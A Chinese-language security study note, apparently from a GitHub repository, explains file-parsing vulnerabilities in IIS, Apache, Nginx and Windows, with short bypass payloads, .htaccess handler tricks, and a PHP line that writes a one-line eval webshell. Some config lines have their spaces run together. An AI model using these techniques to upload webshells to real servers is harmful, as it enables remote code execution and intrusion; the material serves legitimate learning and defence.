

# 文件解析漏洞

* [文件解析漏洞](#文件解析漏洞)
  * [漏洞简介](#漏洞简介)
  * [IIS解析漏洞](#iis解析漏洞)
    * [IIS6\.0](#iis60)
        * [目录解析](#目录解析)
        * [文件解析](#文件解析)
        * [后缀名解析](#后缀名解析)
    * [IIS7\.5](#iis75)
  * [Apache文件解析漏洞](#apache文件解析漏洞)
    * [<strong>CVE\-2017\-15715</strong>](#cve-2017-15715)
    * [多后缀](#多后缀)
    * [conf配置](#conf配置)
    * [罕见后缀](#罕见后缀)
    * [\.htaccess](#htaccess)
  * [Nginx文件解析漏洞](#nginx文件解析漏洞)
    * [解析漏洞](#解析漏洞)
    * [空字节代码执行漏洞](#空字节代码执行漏洞)
  * [Windows解析漏洞](#windows解析漏洞)

------

## 漏洞简介

```php
 文件解析漏洞,是指Web容器（Apache、Nginx、IIS等）在解析文件时将文件解析成脚本文件格式并得以执行而产生的漏洞。从而,黑客可以利用该漏洞实现非法文件的解析。
原理: 服务器默认会把.asp，.asa目录下的文件都解析成asp文件。
```

------

## IIS解析漏洞

### IIS6.0

##### 目录解析

```php
当新建一个以asp结尾的目录时，在该目录中的所有文件都会以asp后缀名去解析，如：shell.asp/shell.jpg，IIS会将shell.asp目录中的shell.jpg当做asp来解析
```

##### 文件解析

```php
/xx.asp;.jpg /xx.asp:.jpg
原理：服务器默认不解析;号后面的内容，因此xx.asp;.jpg便被解析成asp文件了。
```

##### 后缀名解析

```php
在IIS6中，默认会将以下四种后缀名当成asp来进行解析
asp、asa、cer、cdx
```

### IIS7.5

```php
在默认Fast-CGI开启状况下，访问以下网址，服务器将把xx.jpg文件当做php解析并执行。可以根据请求 /xx.jpg 和 /xx.jpg/.php 时返回的 Content-type 是否不同来判断是否存在漏洞。
http://www.xxx.com/xx.jpg/notexist.php
修复：php 配置文件中 cgi.fix_pathinfo=0，将不再递归查询路径确认文件的合法性。这个往前递归的功能原本是想解决 /info.php/test 这种url，能够正确解析到 info.php 上。
```


------

## Apache文件解析漏洞

### **CVE-2017-15715**

Apache版本在2.4.0到2.4.29

```php
在默认配置下, "上传"一个带"换号符"的php文件上去，使用http://ip/test.php%0a访问，可直接解析PHP内容。
```


### 多后缀

Apache1.x和2.x 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。


### conf配置

1、如果在 Apache 的 conf 里有这样一行配置 `AddHandler php5-script .php` 这时只要文件名里包含 .php 即使文件名是 test2.php.jpg 也会以 php 来执行。

2、如果在 Apache 的 conf 里有这样一行配置 `AddType application/x-httpd-php .jpg`即使扩展名是 jpg，一样能以 php 方式执行。


### 罕见后缀

Apache 配置文件中会有`.+.ph(p[345]?|t|tml)`此类的正则表达式，被当 php 程序执行的文件名要符合正则表达式，否则就算 Apache 把某文件当 php 程序，php 自己不认它，也是无用。

也就是说`php3，php4，php5，pht，phtml`也是可以被解析的。


### .htaccess

要想使 `.htaccess` 文件生效，需要两个条件:

**一是在 Apache 的配置文件中写上：**

```php
AllowOverrideAll
```

若这样写则 `.htaccess` 不会生效：

```php
AllowOverrideNone
```

**二是 Apache 要加载 mod_Rewrite 模块。加载该模块，需要在 Apache 的配置文件中写上：**

```php
LoadModulerewrite_module/usr/lib/apache2/modules/mod_rewrite.so
```

若是在 Ubuntu 中，可能还需要执行命令：

```php
sudoa2enmod rewrite
```

配置完后需要重启 Apache。

**如在 `.htaccess` 文件中写入：**

```php
AddTypeapplication/x-httpd-php xxx
```

就成功地使该 `.htaccess` 文件所在目录及其子目录中的后缀为 .xxx 的文件被 Apache 当做 php 文件。

还有一种写法：

```php
<FilesMatch"shell.jpg">
 SetHandlerapplication/x-httpd-php
</FilesMatch>
```


------

## Nginx文件解析漏洞

### 解析漏洞

漏洞原理参考：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html



所以下面两种写法都会将1.jpg当作PHP来解析

```php
www.xxxx.com/UploadFiles/image/1.jpg/1.php  
www.xxxx.com/UploadFiles/image/1.jpg/%20\0.php
```

另外一种手法：上传一个名字为 test.jpg，以下内容的文件:

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```

然后访问 `test.jpg/.php`, 在这个目录下就会生成一句话木马 shell.php。


### 空字节代码执行漏洞

恶意用户发出请求`http://example.com/file.ext％00.php`就会将 `file.ext` 作为 PHP 文件解析。


------

## Windows解析漏洞

经过查资料，目前发现在系统层面，有以下特性可以被上传漏洞所利用。

- Windows 下文件名不区分大小写，Linux下文件名区分大写
- Windows 下 ADS 流特性，导致上传文件 xxx.php::$DATA = xxx.php
- Windows 下文件名结尾加入`.`、`空格`、`<`、`>`、`>>>`、`0x81-0xff`等字符，最终生成的文件均被 windows 忽略。


参考文章：

https://cloud.tencent.com/developer/article/1728674

https://ca01h.top/Web_security/basic_learning/25.%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%96%87%E4%BB%B6%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E%E8%AE%B0%E5%BD%95/#0x03-Nginx%E6%96%87%E4%BB%B6%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E


## 